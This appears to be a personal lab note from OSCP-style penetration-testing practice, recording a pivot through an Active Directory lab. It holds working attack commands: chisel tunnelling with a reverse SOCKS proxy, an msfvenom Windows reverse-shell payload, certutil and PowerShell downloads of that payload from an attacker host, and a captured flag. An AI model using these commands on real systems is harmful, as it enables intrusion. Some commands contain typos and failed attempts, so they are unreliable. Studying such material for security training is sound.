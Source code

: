 ```shell
chisel_1.8.1_windows_amd64.exe client 192.168.49.118:8000 R:1080:socks 4430:192.168.49.118:443 4431:192.168.49.118:4431 4432:192.168.49.118:4432 4433:192.168.49.118:4433
````

- so chisel opened port 4430 and port 4431 
```shell
# client chisel that is being utilized
chisel_1.8.1_windows_amd64.exe client 192.168.49.118:8000 R:1080:socks 4430:192.168.49.118:443 4431:192.168.49.118:4431

 TCP    [::]:4430              [::]:0                 LISTENING       6388
TCP    [::]:4431              [::]:0                 LISTENING       6388
```

- Going to make new msfvenom reverse shell pointing to ms01 on port 443 so it forwards to the kali box

```shell

msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.118.101 LPORT=4430-f exe -o reversed.exe 

#grabbing reversed.exe on MS01

certutil.exe -urlcache -split -f "http://192.168.49.118:1337/reversed.exe"

certutil.exe -urlcache -split -f "http://172.16.118.101/C:/Windows/Temp/reversed.exe"
- didnt work, going to try powershell


powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://172.16.118.101/C:/Windows/Temp/reversed.exe', 'reversed.exe')

wget http://172.16.118.101/reversed.exe
```

- dragged and dropped reversed.exe to the desktop


![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/dragged and dropped reversed.exe.png]]
# Didnt need to do this stop
2nd Local.txt - check
```shell
# local.txt

C:\Users\Alice.Walters\Desktop>ipconfig
type local.txt
d15e951d62853ad7648c7c5bb784c911

C:\Users\Alice.Walters\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.118.102
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.118.254

C:\Users\Alice.Walters\Desktop>

```
